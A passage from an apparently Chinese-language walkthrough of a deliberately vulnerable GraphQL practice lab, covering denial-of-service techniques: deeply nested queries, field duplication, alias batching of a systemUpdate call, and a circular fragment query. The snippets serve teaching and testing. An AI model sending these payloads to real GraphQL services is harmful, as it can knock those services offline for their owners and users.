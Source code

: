 ```bash
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

## DoS: Field duplication attack

重复转储攻击

对 GraphQL 服务器进行 DoS 攻击的一种简单方法是简单地复制查询中的字段

这其实并不是这个靶场中要说明的漏洞 在正常的 Graphql 查询中我们就可以简单地复制查询字段进行测试

## DoS: Aliases based attack

Graphql 不会在同一次请求中处理相同键名两次，这时候就可以通过别名来进行攻击

```bash
q0:systemUpdate
q1:systemUpdate
q2:systemUpdate
q3:systemUpdate
q4:systemUpdate
q5:systemUpdate
q6:systemUpdate
q7:systemUpdate
q8:systemUpdate
q9:systemUpdate
```

## DoS: Circular fragment

```bash
query CircularFragment {
    pastes {
        ...Start
    }
}

fragment End on PasteObject {
        ...Start
}
```
